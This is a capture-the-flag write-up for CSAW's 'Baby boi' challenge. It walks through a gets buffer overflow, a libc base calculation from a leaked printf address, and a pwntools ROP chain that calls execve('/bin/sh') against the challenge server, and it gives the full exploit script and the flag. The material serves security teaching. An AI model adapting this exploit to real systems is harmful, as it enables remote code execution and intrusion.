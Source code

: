 # Baby boi (50)

We are given a 64bit binary, a libc and even the source code .
Our first assumptions is that it's a BOF (Buffer OverFlow) challenge cuz we can see the `gets` function with no control of the input length.
And we can see also that it's giving us the adress of `printf` in libc so no leak needed here.


![img1](executing.png)


and we also have the libc linked in the server so the attack scenario is simple:

1-get the leaked adress of printf.

2-get the offset of printf in libc and calculate the base adress.

3-collect needed gadgets and build the ROP chain.

4-from the base calculate the locations of `execve` and `/bin/sh` string to perform a ```execve("/bin/sh",0,0)``` call in order to get an interractive shell and then we can get the flag.


Let's start by getting offsets of printf and execve. To do that we can use `readelf` with `-s` option on the given libc to get the symbols table and from that we grep printf and execve.


![img2](readelf_printf.png)


we can see that the offset of printf in libc is `0x64e80`.


![img3](readelf_execve.png)


and the offset of execve in libc is `0xe4e30`.

okay let's start creating our exploit. Pwntools will make our life so much easier. First of all we have to get the leaked adress and calculate the base location.


```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
```

![img4](ex1.png)

if you notice that the base adress always ends with 000 cuz it's the beginning.

now we have to calculate the location of execve by adding the execve offset from libc to the base so the exploit become like:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
execve = base + 0x00000000000e4e30
print "execve_libc: ",hex(execve)
```

we can use gdb to calculate of offset between `execve` and `/bin/sh` string in libc so we can calculate its location.

![img5](gdb.png)


we can see that the offset is `0xcf06a`.

Okay now we need just the gadgets to perform the call that we want execve needs 3 arguments so we have to control `rdi`,`rsi` and `rdx` nad it's not a problem since we have the libc file and the libc base we can calculate locations for every gadget we want.

last step to go is to get the padding of the stack to control `RIP` or the instructions pointer peda is very good at this using its `pattern` tool with `create` and `offset` options.

![img6](patt.png)

We can see that the padding is 40 so our buffer is away 40 bytes from the saved return adress.

Everything is ready now just we need to complete the exploit and run it:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
#p = process("./baby_boi",env=env)
p = remote("pwn.chal.csaw.io",1005)

data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x0000000000064e80
execve = base + 0x00000000000e4e30
binsh = execve + 0xcf06a
print "base: ",hex(base)
print "execve_libc: ",hex(execve)
print "binsh: ",hex(binsh)
pop_rdi = 0x0000000000400793
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x0000000000400791)
paylaod += p64(0)
paylaod += p64(0)
paylaod += p64(pop_rdi)
paylaod += p64(binsh)
paylaod += p64(execve)
p.sendline(paylaod)
p.interactive()
```
![img7](final.png)

FLAG: `flag{baby_boi_dodooo_doo_doo_dooo}`
